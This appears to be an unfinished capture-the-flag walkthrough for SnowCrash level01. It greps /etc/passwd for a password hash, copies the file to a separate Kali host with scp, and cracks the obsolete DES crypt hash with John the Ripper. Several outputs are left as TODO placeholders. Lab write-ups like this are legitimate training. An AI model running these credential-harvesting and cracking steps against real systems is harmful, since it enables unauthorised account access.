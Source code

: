 # level01

Get incredibly lucky and notice a password hash in `/etc/passwd`
```bash
level01:~ $ grep -R flag01 /etc/
#TODO output
level01:~ $ grep flag01 /etc/passwd > /tmp/passwd
level01:~ $ scp /tmp/passwd kali@kali:flag01pass
```

The hash is a descrypt, traditional `crypt(3)` which is long obsolete and insecure
Crack hash with John-The-Ripper
```bash
root@kali:~# john --show flag01pass
#TODO output
root@kali:~#
```

Claim flag
```bash
level01@SnowCrash:~ $ rm -f /tmp/passwd
level01@SnowCrash:~ $ su flag01
#TODO password
flag01@SnowCrash:~ $ getflag
#TODO output
level02@SnowCrash:~ $ su level02
#TODO more output
```

